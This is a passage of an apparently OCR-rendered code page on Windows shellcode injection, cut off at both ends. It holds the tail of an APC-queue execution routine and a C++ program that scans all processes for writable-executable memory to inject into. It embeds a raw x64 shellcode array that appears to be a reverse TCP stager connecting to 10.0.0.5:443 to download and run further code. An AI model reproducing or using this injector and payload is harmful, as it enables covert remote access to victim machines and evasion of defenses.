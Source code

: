 ```c
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE) shellAddress;
	QueueUserAPC((PAPCFUNC) apcRoutine, GetCurrentThread(), NULL);
	testAlert();
	return 0;
}
```

- **`Memory Buffer Enumearation [NoVirtualAlloc]`**

```c
#include "pch.h"#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
//Enumerating MemRegions//https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions


int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};

	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};

	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
```